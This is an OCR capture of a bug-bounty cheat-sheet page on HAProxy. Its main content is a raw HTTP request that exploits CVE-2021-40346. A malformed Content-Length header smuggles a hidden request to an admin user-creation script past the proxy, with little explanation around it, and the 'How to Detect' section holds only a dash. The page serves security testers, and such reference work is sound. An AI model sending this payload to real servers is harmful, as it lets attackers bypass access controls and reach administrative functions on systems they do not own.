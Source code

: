 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/HAProxy.md#introduction)

What would you do if you came across a website that uses HAProxy?

## How to Detect

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/HAProxy.md#how-to-detect)

`-`

1. CVE-2021-40346 (HTTP Request Smuggling)

```
POST /index.html HTTP/1.1
Host: abc.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 60
 
GET /admin/add_user.py HTTP/1.1
Host: abc.com
abc: xyz
```

Source:

- [JFrog](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)

